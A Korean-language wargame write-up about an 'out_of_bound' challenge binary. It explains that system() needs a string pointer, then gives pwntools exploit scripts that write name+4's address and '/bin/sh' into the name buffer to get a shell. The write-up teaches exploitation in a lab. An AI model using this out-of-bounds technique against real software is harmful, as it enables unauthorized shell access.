 <p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/202842232-390cba0c-cc2c-4628-a875-25b7b60c0410.jpg" width = 460>
</p>

```python
from pwn import *

p = process('./out_of_bound')

command = b'/bin/sh'
p.sendlineafter('name: ', command)
p.sendlineafter('want?: ', str(19))

p.interactive()
```

Exploit코드를 짜보면 위와 같았다. 하지만 프로세스가 바로 죽어버리는 상황이 발생했다.

`int system(const char *command);` system 함수의 원형이다. 인자를 받는 것은 `const char *c`로 문자열 상수로 받는다. 하지만 위 Exploit을 보면 단순히 문자열로만 전달하기에 제대로 된 값이 전달되지 않는다.

문자열 포인터 argument이므로 문자값이 아닌 문자열을 가리키는 주소가 들어 가야 한다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/202842818-1c114c6f-2402-4313-8774-e030e3883e67.jpg" width = 460>
</p>

system의 인자가 `'/bin`까지 4byte만 들어간 것을 알 수 있다. 이 문제는 `const char *`와 `char []`의 차이를 알아야 알 수 있다.

만약 `char name[16] = "Hello"` 라고 한다면 name으로 할당된 메모리 영역에 "Hello" 문자가 바이트 그대로 들어가게 된다.

`const char *name = "Hello"` 같은 경우는 "Hello"는 name으로 할당된 메모리 영역이 아닌 **read only 데이터 영역**에 문자열로 저장되고 name은 그 저장된 주소값을 저장하게 됩니다.

따라서, 우리는 **'/bin/sh'**이 있는 문자열 주소를 넘겨줘야 한다는 것이다.

우리가 '/bin/sh' 문자를 입력할 수 있는 부분은 `name` 변수이기에 `system` 함수가 메모리 주소를 읽을 수 있게 **name+4**의 값을 주며, name+4 위치에 해당 문자열을 넣으면 Exploit이 성공하게 된다.

```python
from pwn import *

context.log_level = 'debug'
p = process('./out_of_bound')

command = p32(0x0804a0ac + 4) + b'/bin/sh' 
# name + 4's address and /bin/sh 

p.sendlineafter('name: ', command)
p.sendlineafter('want?: ', str(19))
p.interactive()
```